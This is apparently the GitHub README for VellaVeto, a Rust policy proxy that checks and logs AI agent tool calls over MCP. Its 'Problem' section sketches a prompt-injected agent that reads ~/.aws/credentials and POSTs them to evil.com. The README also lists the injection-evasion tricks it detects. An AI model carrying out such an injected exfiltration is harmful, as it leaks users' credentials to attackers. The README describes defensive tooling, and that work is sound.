


<div align="center">
  <br>
  
  <br><br>
  <p>
    <a href="https://github.com/vellaveto/vellaveto/releases"></a>
    <a href="https://github.com/vellaveto/vellaveto/actions/workflows/ci.yml"></a>
    <a href="https://github.com/vellaveto/vellaveto/stargazers"></a>
    <a href="LICENSING.md"></a>
    <a href="https://www.rust-lang.org/"></a>
    
    
    <a href="docs/SECURITY_GUARANTEES.md"></a>
    <a href="formal/"></a>
    <a href="https://modelcontextprotocol.io/specification/2025-11-25"></a>
    <a href="https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/"></a>
    <a href="https://github.com/vellaveto/vellaveto/actions/workflows/provenance-sbom.yml"></a>
    <a href="https://github.com/vellaveto/vellaveto/actions/workflows/codeql.yml"></a>
  </p>
  <p>
    <a href="#the-problem">The Problem</a> &middot;
    <a href="#consumer-shield--protect-users-from-ai-providers">Shield</a> &middot;
    <a href="#quick-start">Quick Start</a> &middot;
    <a href="#how-it-compares">Compare</a> &middot;
    <a href="#security">Security</a> &middot;
    <a href="#architecture">Architecture</a> &middot;
    <a href="#documentation">Docs</a>
  </p>
</div>

---

**VellaVeto is a runtime security engine for AI agent tool calls.** It intercepts [MCP](https://modelcontextprotocol.io/) and function-calling requests, enforces security policies on paths, domains, and actions, and maintains a tamper-evident audit trail. Deploy it as a stdio proxy, HTTP gateway, multi-tenant control plane, or consumer-side privacy shield.

## The Problem

AI agents can read files, make HTTP requests, and execute commands. Without centralized controls:

```
Agent receives prompt injection
  → reads ~/.aws/credentials
  → POST https://evil.com/exfil?data=AKIA...
  → no audit trail, no one notices
```

This is not hypothetical. The MCP ecosystem has accumulated [30+ CVEs](https://www.practical-devsecops.com/mcp-security-vulnerabilities/) in 15 months: command injection in `mcp-remote` ([CVE-2025-6514](https://nvd.nist.gov/vuln/detail/CVE-2025-6514)), path traversal in Anthropic's official Git MCP server ([CVE-2025-68143/44/45](https://github.com/anthropics/anthropic-cookbook/security/advisories)), [SANDWORM](docs/THREAT_MODEL.md) npm supply-chain worms injecting rogue MCP servers into AI configs, and [SmartLoader](https://blog.morphisec.com/smartloader-malware-targets-manufacturing) trojans distributed as MCP packages. [8,000+ MCP servers](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks) have been found exposed with no authentication.

VellaVeto sits between AI agents and tool servers. Every tool call is evaluated against policy before execution. No policy match, missing context, or evaluation error results in `Deny`. Every decision is logged in a tamper-evident chain.

```
Agent attempts: read_file("/home/user/.aws/credentials")
  → VellaVeto evaluates against policy
  → Deny { reason: "path blocked by credential-protection rule" }
  → Logged with SHA-256 chain + Ed25519 checkpoint
  → Agent never sees the file contents
```

## Consumer Shield — Protect Users from AI Providers

Enterprise security is half the story. When AI providers process tool calls through their infrastructure, they see your file paths, credentials, browsing patterns, and work context. The [Consumer Shield](examples/presets/consumer-shield.toml) is a user-side deployment mode that protects individuals from mass data collection — regardless of what the provider's terms of service say.

```
You type: "Read my medical records at /home/alice/health/lab-results.pdf"
  → Shield intercepts before the provider sees it
  → PII replaced: "Read my medical records at [PII_PATH_1]"
  → Provider processes the sanitized request
  → Response comes back, Shield restores original paths
  → Encrypted local audit proves what was shared and what was stripped
```

**What the Shield does:**

| Layer | What It Protects | How |
|---|---|---|
| **PII sanitization** | File paths, emails, IPs, names, credentials | Bidirectional replacement with `[PII_{CAT}_{SEQ}]` placeholders — provider never sees originals |
| **Encrypted local audit** | Full interaction history | XChaCha20-Poly1305 + Argon2id, stored on your machine, not the provider's |
| **Session isolation** | Cross-session correlation | Each session gets a fresh credential — provider cannot link sessions to build a profile |
| **Credential vault** | API keys, tokens passed through tool calls | Blind credential binding — provider sees the tool call but not the credential value |
| **Stylometric resistance** | Writing style fingerprinting | Whitespace, punctuation, emoji, and filler word normalization so your writing patterns are not identifiable |
| **Warrant canary** | Legal compulsion transparency | Ed25519-signed canary — if it stops being updated, assume legal pressure |

The Shield runs locally as `vellaveto-shield` and is licensed under **MPL-2.0** — no enterprise license required.

```bash
vellaveto-shield --config consumer-shield.toml -- npx @anthropic/claude-desktop
```

## What It Does

VellaVeto is not just a proxy or firewall — it is a security control plane for agentic systems:

- **Policy engine** — glob/regex/domain matching, parameter constraints, time windows, call limits, Cedar-style ABAC, Wasm plugins. <5ms P99 evaluation.
- **Threat detection** — injection, tool squatting, rug pulls, schema poisoning, DLP, memory poisoning, multi-agent collusion. 20+ detection layers, not just regex.
- **Identity and access** — OAuth 2.1/JWT, OIDC/SAML, RBAC, capability delegation, DPoP (RFC 9449), non-human identity lifecycle.
- **Topology discovery** — auto-discover MCP servers, tools, and resources. Detect drift, tool shadowing, and namespace collisions.
- **Audit and compliance** — tamper-evident logs (SHA-256 + Merkle + Ed25519), ZK proofs, evidence packs mapped to EU AI Act, SOC 2, DORA, NIS2, NIST AI 600-1, ISO 42001, and 6 more frameworks.
- **Consumer shield** — all of the above, running user-side. See [Consumer Shield](#consumer-shield--protect-users-from-ai-providers).

**Core guarantees:**
- **Complete mediation** — request and response paths evaluated before tool execution and before model return
- **Fail-closed** — errors, missing policies, and unresolved context all produce `Deny`
- **Tamper-evident audit** — SHA-256 hash chain + Merkle proofs + Ed25519 signed checkpoints
- **Public security contract** — [Security Guarantees](docs/SECURITY_GUARANTEES.md) + [Assurance Case](docs/ASSURANCE_CASE.md) with reproducible evidence

## Quick Start

### Instant Protection

Pick a protection level and go — no config file needed:

```bash
# Install (pick one):
cargo install vellaveto-proxy                 # From source (~2 min)
# or download pre-built binary from https://github.com/vellaveto/vellaveto/releases

# Shield — credentials, SANDWORM defense, exfil blocking, injection/DLP
vellaveto-proxy --protect shield -- npx @modelcontextprotocol/server-filesystem /tmp

# Fortress — shield + system files, package configs, sudo approval, memory tracking
vellaveto-proxy --protect fortress -- python -m mcp_server

# Vault — deny-by-default, safe reads allowed, writes require approval
vellaveto-proxy --protect vault -- ./my-server
```

| Level | Default | What it blocks | For whom |
|-------|---------|----------------|----------|
| `shield` | Allow | Credentials, SANDWORM (AI config injection), exfil domains, git hooks, system files, dangerous commands, injection, DLP | Anyone — just works |
| `fortress` | Allow | Shield + package config tampering, privilege escalation approval, memory poisoning detection, shadow agent detection | Developers who want more |
| `vault` | **Deny** | Everything not explicitly allowed; source reads + git reads allowed, writes require approval | Maximum security |

<p align="center">
  
</p>

### Setup Wizard

```bash
npx create-vellaveto
```

### Custom Config

```bash
vellaveto-proxy --config policy.toml -- /path/to/mcp-server
```

### HTTP Reverse Proxy (deployed MCP servers)

```bash
cargo install vellaveto-http-proxy
VELLAVETO_API_KEY=$(openssl rand -hex 32) vellaveto-http-proxy \
  --upstream http://localhost:8000/mcp \
  --config policy.toml \
  --listen 127.0.0.1:3001
```

### Docker

```bash
docker pull ghcr.io/vellaveto/vellaveto:latest
docker run -p 3000:3000 \
  -v /path/to/config.toml:/etc/vellaveto/config.toml:ro \
  ghcr.io/vellaveto/vellaveto:latest
```

### Use with Claude Desktop

Edit `~/Library/Application Support/Claude/claude_desktop_config.json` (macOS) or `%APPDATA%\Claude\claude_desktop_config.json` (Windows):

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "shield",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "/home/user/projects"
      ]
    }
  }
}
```

### Use with Cursor

Edit `.cursor/mcp.json` in your project directory:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "fortress",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "."
      ]
    }
  }
}
```

### Use with Windsurf

Edit `~/.codeium/windsurf/mcp_config.json`:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "fortress",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "."
      ]
    }
  }
}
```

Replace `shield`/`fortress` with `vault` for maximum security. See [docs/QUICKSTART.md](docs/QUICKSTART.md) for SDK integration guides (Anthropic, OpenAI, LangChain, LangGraph, CrewAI).

## How It Works

```
                    +------------------+
  AI Agent -------->|    VellaVeto     |--------> Tool Server
                    |                  |
                    |  1. Parse action |
                    |  2. Match policy |
                    |  3. Evaluate     |
                    |     constraints  |
                    |  4. Allow / Deny |
                    |  5. Audit log    |
                    +--------+---------+
                             |
                    Tamper-evident log
                    (SHA-256 chain +
                     Ed25519 signatures)
```

## Architecture



Lower crates never depend on higher crates. `vellaveto-operator` is standalone (kube-rs, no internal deps). License tiers are documented separately in [LICENSING.md](LICENSING.md).

## Key Capabilities

| | What It Does | Docs |
|---|---|---|
| **Policy Engine** | Glob/regex/domain matching, parameter constraints, time windows, call limits, action sequences, Cedar-style ABAC, Wasm plugins. Pre-compiled patterns, <5ms P99, decision cache. | [Policy](docs/POLICY.md) |
| **Threat Detection** | 20+ detection layers: injection (Aho-Corasick + NFKC + obfuscation decode), tool squatting, rug pulls, schema poisoning, DLP, memory poisoning, multi-agent collusion. Maps to [OWASP Agentic Top 10](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/). | [Threat Model](docs/THREAT_MODEL.md) |
| **Identity & Access** | OAuth 2.1/JWT, OIDC/SAML, RBAC (4 roles, 14 perms), ABAC with forbid-overrides, capability delegation, DPoP (RFC 9449), non-human identity lifecycle. | [IAM](docs/IAM.md) |
| **Discovery** | Auto-discover MCP servers, tools, resources via topology graph. Detect drift, tool shadowing, namespace collisions. Topology guard as pre-policy filter. | [Architecture](#architecture) |
| **Audit & Compliance** | Tamper-evident logs (SHA-256 + Merkle + Ed25519), ZK proofs (Pedersen + Groth16), evidence packs for EU AI Act, SOC 2, DORA, NIS2, NIST AI 600-1, ISO 42001, and 6 more. | [Compliance](docs/COMPLIANCE.md) |
| **Consumer Shield** | User-side PII sanitization, encrypted local audit (XChaCha20-Poly1305), session isolation, credential vault, stylometric fingerprint resistance, warrant canary. | [Consumer Shield](examples/presets/consumer-shield.toml) |
| **Deployment** | 6 modes: HTTP, stdio, WebSocket, gRPC, gateway, consumer shield. K8s operator (3 CRDs), Helm chart, Terraform provider, VS Code extension. | [Deployment](docs/DEPLOYMENT.md) |

## Security

### Internal Adversarial Auditing

VellaVeto has undergone **232 rounds of internal adversarial security auditing** covering 31+ attack classes mapped to the [OWASP Top 10 for Agentic Applications](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/). These are not third-party audits — they are systematic internal red-team exercises where we attack our own code, document findings, fix them, and verify the fixes. 1,550+ findings resolved. The methodology and findings are documented in the [changelog](CHANGELOG.md) and [security review](docs/SECURITY_REVIEW.md).

- **Fail-closed everywhere** — empty policy sets, missing parameters, lock poisoning, capacity exhaustion, and evaluation errors all produce `Deny`
- **Zero `unwrap()` in library code** — all error paths return typed errors; panics reserved for tests only
- **9,900+ tests** — Rust, Python, Go, TypeScript, Java, Terraform, React, VS Code + 24 fuzz targets, zero warnings
- **Post-quantum ready** — Hybrid Ed25519 + ML-DSA-65 (FIPS 204) audit signatures, feature-gated behind `pqc-hybrid`

### Formal Verification

We use formal methods to prove — not just test — critical security properties:

| Tool | What's Proven | Files |
|---|---|---|
| **TLA+** | Policy engine determinism, ABAC forbid-override correctness, workflow constraint enforcement, task lifecycle safety, cascading failure recovery | [formal/tla/](formal/tla/) |
| **Verus** | 29 deductive proofs on actual Rust (ALL inputs via Z3 SMT): verdict fail-closed (V1-V8), path normalization (V9-V10), rule override correctness (V11-V12), DLP buffer safety (D1-D6) | [formal/verus/](formal/verus/) |
| **Kani** | 60 bounded model checking harnesses on actual Rust: IP validation, cache safety, capability delegation, rule checking, constraint evaluation, task lifecycle, entropy, and more | [formal/kani/](formal/kani/) |
| **Lean 4** | Fail-closed property (errors → Deny), evaluation determinism, path normalization idempotence | [formal/lean/](formal/lean/) |
| **Coq** | 15 theorems: fail-closed, determinism, ABAC forbid-override, capability delegation attenuation | [formal/coq/](formal/coq/) |
| **Alloy** | Capability delegation cannot escalate privileges | [formal/alloy/](formal/alloy/) |

**212 verification instances** across 7 tools. Formal verification is rare in security tooling. We believe the properties that matter most — fail-closed behavior, determinism, no privilege escalation — should be proven, not just tested. See [formal/README.md](formal/README.md) and [docs/TRUSTED_COMPUTING_BASE.md](docs/TRUSTED_COMPUTING_BASE.md) for details.

### Former Limitations (Now Resolved)

All four previously documented limitations have been addressed:

- **Cross-call DLP** — `SessionDlpTracker` with overlap buffers detects secrets split across multiple tool calls within a session (~150 bytes state per field). See [`cross_call_dlp.rs`](vellaveto-mcp/src/inspection/cross_call_dlp.rs).
- **Grammar-validated injection** — JSON Schema `pattern` constraints compiled to DFAs provide a positive security model (Phase 72). The existing Aho-Corasick pre-filter remains as defense-in-depth. MCPSEC A14 attack tests validate enforcement.
- **TLS termination** — Built-in rustls-based TLS/mTLS via the [`vellaveto-tls`](vellaveto-tls/) crate. Supports SPIFFE identity extraction, post-quantum key exchange policies, and automatic ALPN negotiation. External reverse proxy remains optional.
- **Independent verification** — [Bug bounty program](SECURITY_BOUNTY.md) (HackerOne + Huntr), [OSTIF audit scope](docs/OSTIF_AUDIT_SCOPE.md), Codecov integration, and OpenSSF Best Practices Badge enrollment.

Full details: [Security Guarantees](docs/SECURITY_GUARANTEES.md) | [Threat Model](docs/THREAT_MODEL.md) | [Assurance Case](docs/ASSURANCE_CASE.md)

### MCPSEC Benchmark

We built [MCPSEC](mcpsec/), an open, vendor-neutral security benchmark for MCP gateways (Apache-2.0). It defines 10 formal security properties and 72 reproducible attack test cases across 14 attack classes (including A13: cross-call secret splitting, A14: schema pattern bypass). VellaVeto v6.0.0 scores **100/100 (Tier 5: Hardened)** — all 72 tests passed. Run it against any MCP gateway — including ours:

```bash
cargo run -p mcpsec -- --target http://localhost:3000 --format markdown
```

See [mcpsec/README.md](mcpsec/README.md) for properties, attack classes, and methodology.

### Compliance & Regulatory Frameworks

VellaVeto maps runtime security controls to **12 regulatory and industry frameworks** — the only MCP gateway with built-in compliance evidence generation. Each framework has a dedicated Rust registry that maps VellaVeto capabilities to specific articles, clauses, or controls, with coverage reports and evidence packs for regulated frameworks.

**Regulatory:** EU AI Act (Art 9/10/12/14/50), NIS2 (Art 21-23 with 24h/72h/1M incident timelines), DORA (Ch II/III/V for financial ICT resilience), ISO 42001 (AI management system)

**Trust & Certification:** SOC 2 Type II (CC1-CC9 with automated CC6 access reviews), NIST AI 600-1 (12 GenAI risk areas)

**Threat & Security:** OWASP Top 10 Agentic (ASI01-ASI10), OWASP MCP Top 10 (MCP01-MCP10), CoSAI (38/38 controls), Adversa TOP 25 (25/25), CSA Agentic Trust Framework, Singapore MGF

**Cross-regulation incident reporting** maps a single security incident to the notification timelines of every applicable framework (NIS2 24h pre-notification, DORA classification, EU AI Act Art 62 obligations). **10-framework gap analysis** provides a consolidated coverage report with priority-ranked remediation guidance.

Full details: [Compliance Guide](docs/COMPLIANCE.md) | [Website: vellaveto.online/compliance](https://www.vellaveto.online/compliance)

## How It Compares

| | **VellaVeto** | **AgentGateway** | **MCP-Scan (Snyk)** | **Lasso Gateway** |
|---|---|---|---|---|
| **Language** | Rust | Rust | Python | Python |
| **Backing** | Independent | Linux Foundation / Solo.io | Snyk (acquired Invariant Labs) | Lasso Security (~$28M raised) |
| **Stars** | New | ~1,800 | ~1,700 | ~349 |
| **Primary role** | Runtime policy engine + firewall | Connectivity proxy / gateway | Scanner + monitor | Security gateway (plugin-based) |
| **Evaluation latency** | <5ms P99 | Not published | N/A (scan-time) | Not published |
| **Policy engine** | Glob/regex/domain, ABAC, Cedar, Wasm plugins, time windows, call sequences | OPA / OpenFGA / CEL | Guardrailing policies | Plugin-based guardrails |
| **Injection detection** | 20+ layers (Aho-Corasick, NFKC, ROT13, base64, math symbols, leetspeak, emoji smuggling, FlipAttack, memory poisoning, schema poisoning, ...) | AI Prompt Guard (LLM-based) | Tool description scanning + LLM judges | Guardrail plugins |
| **DLP** | 5-layer decode + credential patterns | PII pattern masking | Secrets scanning | Presidio plugin |
| **Transport coverage** | HTTP, WebSocket, gRPC, stdio, SSE (verified parity) | MCP + A2A | MCP (stdio + proxy) | MCP (stdio, SSE) |
| **Audit trail** | SHA-256 chain + Merkle + Ed25519 + ZK proofs + PostgreSQL | Observability hooks | Logging | Logging |
| **Compliance** | 12 frameworks (EU AI Act, SOC 2, DORA, NIS2, ...) | None | None | None |
| **Formal verification** | TLA+, Lean 4, Coq, Alloy, Kani, Verus | None | None | None |
| **Consumer privacy** | PII sanitization, session isolation, credential vault, stylometric resistance | None | None | PII scanning (Presidio) |
| **Enterprise IAM** | OIDC, SAML, RBAC, SCIM, DPoP | None | None | None |
| **MCPSEC score** | 100/100 (Tier 5) | Not tested | Not applicable | Not tested |
| **Ease of setup** | `--protect shield` (one flag) / Docker / Helm | Docker / binary | `pip install` | `pip install` |
| **License** | MPL-2.0 / Apache-2.0 / BUSL-1.1 | Apache-2.0 | Apache-2.0 | MIT |

**Trade-offs:** AgentGateway and MCP-Scan have strong institutional backing (Linux Foundation, Snyk) and larger communities. AgentGateway excels as a connectivity and observability layer with external policy engine integration (OPA, OpenFGA); MCP-Scan excels at scanning MCP server configurations and now includes a runtime proxy mode. Both have solid security features. Lasso Gateway and [PipeLock](https://github.com/luckyPipewrench/pipelock) (Go, single binary) are closer in scope but lighter on depth. VellaVeto differentiates on integrated policy evaluation (<5ms P99), multi-transport parity, compliance evidence, and formal verification — the table above is our honest best-effort comparison, but we encourage you to evaluate each tool against your own requirements.

## Deployment Modes

| Mode | Command | Use Case |
|---|---|---|
| HTTP API Server | `vellaveto serve` | Dashboard, REST API, policy management |
| MCP Stdio Proxy | `vellaveto-proxy` | Claude Desktop, local MCP servers |
| HTTP Reverse Proxy | `vellaveto-http-proxy` | Deployed MCP servers, SSE/Streamable HTTP |
| WebSocket Proxy | `vellaveto-http-proxy` | Bidirectional MCP-over-WS at `/mcp/ws` |
| gRPC Proxy | `vellaveto-http-proxy --grpc` | High-throughput, protobuf-native (feature-gated) |
| Consumer Shield | `vellaveto-shield` | User-side PII protection |

See [docs/DEPLOYMENT.md](docs/DEPLOYMENT.md) for configuration details.

## Documentation

### Getting Started

| Document | Description |
|---|---|
| [Quick Start](docs/QUICKSTART.md) | Framework integration guides (Anthropic, OpenAI, LangChain, LangGraph, MCP) |
| [15-Minute Secure Start](docs/SECURE_QUICKSTART_15_MIN.md) | End-to-end deny-by-default walkthrough with audit verification |
| [Policy Configuration](docs/POLICY.md) | Policy syntax, operators, presets, elicitation, sampling, DLP |
| [CLI Reference](docs/CLI.md) | All binaries and commands |
| [Environment Variables](docs/ENV.md) | Configuration via environment |

### Security & Compliance

| Document | Description |
|---|---|
| [Security Guarantees](docs/SECURITY_GUARANTEES.md) | Normative, falsifiable security contract |
| [Threat Model](docs/THREAT_MODEL.md) | Trust boundaries, attack surfaces, mitigations |
| [Assurance Case](docs/ASSURANCE_CASE.md) | Claim -> evidence -> reproduce map |
| [Security Hardening](docs/SECURITY.md) | Security configuration best practices |
| [Quantum Migration](docs/quantum-migration.md) | PQC rollout and rollback gates |

### Operations & Architecture

| Document | Description |
|---|---|
| [Deployment Guide](docs/DEPLOYMENT.md) | Docker, Kubernetes (Helm), bare metal |
| [Operations Runbook](docs/OPERATIONS.md) | Monitoring, troubleshooting, maintenance |
| [API Reference](docs/API.md) | Complete HTTP API (168 endpoints) |
| [Audit Log](docs/AUDIT_LOG.md) | Audit system internals, verification, SIEM export |
| [IAM](docs/IAM.md) | OIDC, SAML, RBAC, session management |
| [Benchmarks](docs/BENCHMARKS.md) | Reproducible performance benchmarks |
| [Evaluation Traces](docs/EVALUATION_TRACES.md) | Decision explainability and execution graphs |

### SDKs

| SDK | Path | Tests |
|---|---|---|
| Python (sync + async, LangChain, LangGraph, CrewAI, Google ADK, OpenAI Agents, Composio, Claude Agent, Strands, MS Agents) | [sdk/python/](sdk/python/) | 484 |
| TypeScript | [sdk/typescript/](sdk/typescript/) | 122 |
| Go | [sdk/go/](sdk/go/) | 129 |
| Java | [sdk/java/](sdk/java/) | 120 |

## Development

```bash
# Build
cargo build --release

# Test
cargo test --workspace

# Lint
cargo clippy --workspace --all-targets

# Format
cargo fmt --check

# Security audit
cargo audit

# Benchmarks
cargo bench --workspace

# Fuzz (requires nightly)
cd fuzz && cargo +nightly fuzz run fuzz_json_rpc_framing -- -max_total_time=60
```

See [CONTRIBUTING.md](CONTRIBUTING.md) for development rules and commit format.

### CI Policy Validation

Validate your policy config in GitHub Actions:

```yaml
- uses: vellaveto/vellaveto/.github/actions/policy-check@main
  with:
    config: vellaveto.toml
    strict: true
```

## License

| Tier | License | Crates |
|---|---|---|
| Core + Consumer | MPL-2.0 | types, engine, audit, config, canonical, discovery, approval, proxy, mcp-shield, shield |
| Canary + Benchmark | Apache-2.0 | canary, mcpsec |
| Enterprise | BUSL-1.1 → MPL-2.0 | server, http-proxy, mcp, cluster, operator, integration |

Enterprise crates are free for production use at ≤3 nodes / ≤25 endpoints. Each version converts to MPL-2.0 after 3 years. See [LICENSING.md](LICENSING.md) for full details. For managed service offerings or above-threshold deployments, contact **hello@vellaveto.online**.

## References

- [MCP Specification 2025-11-25](https://modelcontextprotocol.io/specification/2025-11-25)
- [OWASP Top 10 for Agentic Applications 2026](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)
- [OWASP Top 10 for MCP Servers](https://owasp.org/www-project-top-10-for-mcp-servers/)
- [CoSAI MCP Security Whitepaper](https://www.coalitionforsafeai.org/)
- [ETDI: Mitigating Tool Squatting and Rug Pull Attacks in MCP](https://arxiv.org/abs/2506.01333)
- [Enterprise-Grade Security for MCP](https://arxiv.org/pdf/2504.08623)
- [MCP Security Vulnerabilities — Practical DevSecOps](https://www.practical-devsecops.com/mcp-security-vulnerabilities/)
